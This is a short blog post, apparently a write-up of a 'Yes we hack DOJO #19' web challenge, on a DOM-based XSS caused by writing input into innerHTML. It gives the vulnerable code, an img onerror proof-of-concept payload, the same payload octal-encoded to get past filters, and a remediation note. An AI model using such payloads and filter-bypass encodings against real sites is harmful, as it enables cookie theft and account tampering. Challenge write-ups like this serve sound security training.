 ```yaml
---
layout: post
title:  "Yes we hack DOJO #19"
date:   2022-12-07 10:02:59 +0100
hidden: true
categories: jekyll update
---
```


## Description
DOM XSS in
```javascript
var cmd = '$cmd';
[...]
var command = user[cmd] || 'Command \''+cmd+'\' not found.';//(2)
[...]
document.getElementById('inpt').innerHTML = cmd+'<br>'+command;
```
## Exploitation
Step 1. Pass the filters: Using octal was fine.
Step 2. Get execution. Regular script arent reloaded by browser but stuff like onload and onerror is fine.

## PoC
```html
<img src=1 onerror="users['butters'].connection='offline';console.log('h4x');"> 
```
=> in octal
```
\12\74\151\155\147\40\163\162\143\75\61\40\157\156\145\162\162\157\162\75\42\165\163\145\162\163\133\47\142\165\164\164\145\162\163\47\135\56\143\157\156\156\145\143\164\151\157\156\75\47\157\146\146\154\151\156\145\47\73\143\157\156\163\157\154\145\56\154\157\147\50\47\150\64\170\47\51\73\42\76\12
```
## Risk
Cookie leaks, Redirects and other dangerous stuff.

## Remediation
Don't use innerHTML, use something more appropriate like textContext.

## Bugs

Only works in Firefox for me, not in chrome. DOMContentloaded fires too early in chrome, ofcourse I can make it fire again but it seems like since butters is grounded it doesn't help if he's late.
